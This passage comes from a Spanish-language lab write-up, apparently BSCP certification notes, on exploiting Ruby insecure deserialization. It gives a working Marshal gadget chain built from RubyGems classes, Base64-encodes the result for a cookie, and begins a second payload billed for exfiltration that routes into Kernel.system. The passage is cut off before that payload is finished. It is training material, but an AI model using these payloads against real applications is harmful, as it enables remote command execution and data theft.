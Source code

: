 ```ruby
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])

# Convert the payload to Base64
encoded_payload = Base64.encode64(payload)

puts "Payload en Base64 mi Papacho:"
puts encoded_payload
```

Lo ejecutamos en [mycompiler.io](https://www.mycompiler.io/es/new/ruby)

![[Pasted image 20250219094602.png]]

Actualizamos la cookie de a base64, y *solo faltaría encodear a URL* (desde la pagina de **encode URL**) y listo!!, **el código lo modifique un poquito para que retorne en base64 de una vez.** 
![](Pasted%20image%2020250224073036.png)
Eso seria todo, los labs experts los Reporto por aquí en otro momento, estos son la base para el BSCP. 

## Pero el payload para exfiltrar información `Pro Tip BSCP`

```rb
require 'net/http'  # Cargar la librería de red estándar
require 'base64'

# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
```